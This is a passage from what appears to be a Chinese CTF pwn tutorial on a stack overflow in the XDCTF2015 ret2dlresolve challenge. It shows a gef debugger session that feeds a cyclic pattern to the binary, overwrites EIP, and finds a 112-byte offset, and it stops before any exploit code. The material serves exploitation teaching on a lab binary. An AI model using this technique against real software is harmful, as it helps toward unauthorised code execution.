 #### 正常攻击

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

```asm
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main 
Welcome to XDCTF2015~!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x000000c9
$ebx   : 0x00000000
$ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x00000100
$esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
$eip   : 0x62616164 ("daab"?)
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcce0', 'l8']
8
0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"	 ← $esp
0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search 
```